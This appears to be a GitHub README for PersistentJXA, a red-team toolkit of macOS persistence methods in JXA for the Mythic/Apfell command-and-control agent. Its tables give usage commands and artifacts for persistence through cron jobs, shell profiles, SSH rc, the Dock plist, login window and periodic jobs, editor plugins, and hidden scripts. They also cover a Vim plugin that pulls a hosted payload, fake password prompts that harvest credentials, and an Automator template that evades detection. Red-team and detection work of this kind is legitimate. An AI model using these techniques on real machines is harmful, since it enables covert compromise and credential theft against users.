# PersistentJXA
Collection of macOS persistence methods and miscellaneous tools in JXA  <br />
Related blog posts: 
- https://posts.specterops.io/persistent-jxa-66e1c3cd1cf5
- https://posts.specterops.io/are-you-docking-kidding-me-9aa79c24bdc1

# Usage
* In Mythic (Apfell Agent) :

```JavaScript
jsimport (Selected file)
jsimport_call <NameOfPersistenceScript>(ScriptArguments)
```


| Project | Description | Usage | Artifacts Created | Commandline Commands Executed
| :------ | :---------- | :----------- | :----------- | :----------- |
| **AtomPersist** |  Persistence using the Atom init script. Appends the Atom init script to execute our command. <br /> Persistence executes upon Atom opening. |jsimport_call AtomPersist('osascript -l JavaScript -e ...') | Modification to end of: <br /> /System/Volumes/Data/Users/{User}/.atom/init.coffee | N/A ||
| **BashProfilePersist** |  Modifies user's bash profile to execute script if the persistence process (current implementation assumes osascript) is not already running. If Catalina system then .zshenv is modified. <br /> Persistence executes on terminal open. | jsimport_call BashProfilePersist('osascript -l JavaScript -e ...', "no") |  $HOME/.bash_profile or  $HOME/.zshenv <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> $HOME/.security/apple.sh <br />  $HOME/.security/update.sh <br /> | N/A by default. <br /> ***"no"*** for hidden file creation option <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> sh $HOME/.security/apple.sh <br /> <br /> sh $HOME/.security/persist.sh|
| **CalendarPersist** | Persistence via macOS Calendar.app alerts. This script will create new events and inserts them into the calendar with an alert that executes an application. There is additional funcitionality to modify exsiting events, list calendars, list events, and hide calendars. <br /> Persistence executes upon the event alert which triggers the specified persistence application. See https://github.com/FSecureLABS/CalendarPersist for usage details and background | jsimport_call persist_calalert("Fake Meeting", "/Users/Shared/Persist.app", 60, "daily", 1, 3, "FB825EFC-C65F-4959-8BDC-EBDF9E886C45")) | /Users/{USER}/Calendars/Calendar Cache | ***If hide_calendar function used:*** <br /> sh -c defaults write com.apple.iCal DisabledCalendars -dict MainWindow '({uid})'|
| **CronJobPersistence** | Persistence using CronJobs. This script will create a hidden file (share.sh) in the current user's Public/Drop Box folder. Writes a cron job with a default interval of 15mins which executes the hidden script.  <br />  (Note: This command generates a user prompt for Catalina. If the user clicks “Don’t Allow” the command should fail with an “operation not permitted"). <br /> Persistence executes every 15 mins. | jsimport_call CronJobPersistence('osascript -l JavaScript -e ...') | $HOME/Public/Drop\ Box/.share.sh <br /> crontab entry | sh -c echo "$(echo '15 * * * * cd $HOME/Public/Drop\\ Box/ && ./.share.sh' ; crontab -l)" \| crontab - <br /> <br />  sh -c (Persistence Action)|
| **DockPersist** | Modifies the apple dock plist for persistence. Requires an application to be present on target. Persistence executes upon user interaction. | jsimport_call DockPersist("Safari", "com.apple.automator.Safari","yes") <br /> or <br /> jsimport_call DockPersist("Google Chrome", "com.apple.automator.Google-Chrome","yes") | $HOME/Library/Preferences/com.apple.dock.plist |  ***If ReloadNow function used:*** <br /> /usr/bin/killall Dock |
| **FinderSyncPlugins** |  Persistence using Finder Sync Extensions. Requires and app on the target to be setup for abuse. It searches the app for the required files and registers them. <br /> See https://objective-see.com/blog/blog_0x11.html for how to setup. <br />  Persistence executes on login.  |  jsimport_call FinderSyncPlugins('/Users/Shared/SyncTest.app') | N/A | pluginkit -a </some/path/persist.appex> & <br /> <br /> pluginkit -e use -i <FinderSynsBundleID> & |
| **iTermAppScript** | Persistence using the iTerm2 application startup script. Appends the application script for iTerm2 to execute our command. If the folder does not exist then one will be created. <br /> Persistence executes upon iTerm2 opening. <br /> See https://theevilbit.github.io/beyond/beyond_0002/ for more details.|jsimport_call iTermAppScript('osascript -l JavaScript -e ...') | modification to end of /Library/Application\ Support/iTerm2/Scripts/AutoLaunch/iTerm.py | sh -c (Persistence Action) |
| **LoginScript** | **Requires Root** Modifies login window plist for persistence. Persistence executes on login. | jsimport_call LoginScript('osascript -l JavaScript -e ...') | /var/root/Library/Preferences/com.apple.loginwindow.plist <br />  <br />/Users/Shared/.security/test.sh |  sh -c (Persistence Action) |
| **PeriodicPersist** | **Requires Root** Create a daily job in /etc/periodic/daily. Persistence executes  daily. | jsimport_call PeriodicPersist('osascript -l JavaScript -e ...') | /etc/periodic/daily/111.clean-hist | sh -c (Persistence Action)|
| **SSHrc** |  Modifies or creates SSH rc file to execute persistence when the user logs in with SSH and if the persistence process (current implementation assumes osascript) is not already running. <br /> See https://twitter.com/0xdade/status/1373145566943711235?s=20 for more details. | jsimport_call SSHrc('osascript -l JavaScript -e ...', "no") |  $HOME/.ssh/rc <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> $HOME/.security/apple.sh <br />  $HOME/.security/update.sh <br /> | N/A by default. <br /> ***"no"*** for hidden file creation option <br /> <br /> ***If select "yes" for hidden file creation then:*** <br /> sh $HOME/.security/apple.sh <br /> <br /> sh $HOME/.security/persist.sh |
| **SublimeTextAppScriptPersistence** | Persistence using the Sublime Text application script. Appends the application script for Sublime to execute our command.. <br /> Persistence executes upon Sublime opening. <br /> See https://theevilbit.github.io/posts/macos_persisting_through-application_script_files/ for more details.|jsimport_call SublimeTextAppScriptPersistence('osascript -l JavaScript -e ...') | modification to end of /Applications/Sublime\ Text.app/Contents/MacOS/sublime.py | sh -c (Persistence Action) |
| **SublimeTextPluginPersistence** | Persistence using Sublime Text plugins. Creates a plugin file that is executed upon the opening of Sublime. <br />  Persistence executes upon Sublime opening. | jsimport_call SublimeTextPluginPersistence('/Users/Shared/inject.dylib')| $HOME/Library/Application\ Support/Sublime\ Text\  [2 or 3] /PrettyText/PrettyText.py  | N/A |
| **VimPluginPersistence** | Persistence using Vim plugins. Creates a plugin file that is executed  upon the opening of vim. <br />  Persistence executes upon vim opening. | jsimport_call VimPluginPersistence('http://path/to/hosted/apfellpayload')  | $HOME/.vim/plugin/d.vim | sh -c (Persistence Action) |

# Misc Scripts / Tools

| Project | Description | Usage | Artifacts Created | Commandline Commands
| :------ | :---------- | :----------- | :----------- | :----------- |
| **DylibHijackScan** | JXA version of Patrick Wardle's tool that searches applications for dylib hijacking opportunities. May generate user pop up if looking into protected fodlers. Requires xcode installed on 10.14.1| js_importcall DylibHijackScan()  | N/A | "sh -c  lsof \| tr -s ' ' \| cut -d' ' -f9 \| sed '/^$/d' \| grep '^/'\| sort \| uniq" <br /> sh -c file "placeholder"  <br /> sh -c  otool -l "placeholder" <br /> |
| **InjectCheck** | Process Injection Checker. The tool enumerates the Hardened Runtime, Entitlements, and presence of Electron files to determine possible injection opportunities | js_importcall InjectCheck("All") <br /> or <br /> js_importcall InjectCheck("/Applications/Firefox.app") | N/A | N/A |
| **PrivilegedHelperToolSpoof** | Tools searches the installed Privileged Helper Tools "/Library/PrivilegedHelperTools" and leverages legitimate icons and information in an attempt to gain user password credentials. The tool prompts again (with slightly different text) if the first password entry is blank. If no helper tool then default prompt for creds. | js_importcall PrivHelpToolSpoof() | N/A | sh -c launchctl plist __TEXT,__info_plist /Library/PrivilegedHelperTools/ <arrary> \| grep -A1 AuthorizedClients" |
| **OutlookUpdatePrompt** | Tool which prompts the user for and update in an attempt to gain password credentials. Attempts to bring a prompt using outlook icon if installed otherwise uses standard cog. Returns credentials from prompt entry to the user. | js_importcall OutlookUpdatePrompt() | N/A | N/A |
| **WorkflowTemplate** | A template for Automator to execute JXA. This is to evade simple detections on commandline osascript. After replacing the placeholder (JXA PAYLOAD HERE) with the desired js script, it can be executed by  /usr/bin/automator /path/to/file/Workflow.wflow. Requires the file to be on host but can be leveraged in combination with the above persistence methods | /usr/bin/automator /path/to/file/Workflow.wflow | /path/to/file/Workflow.wflow  | /usr/bin/automator /path/to/file/Workflow.wflow|
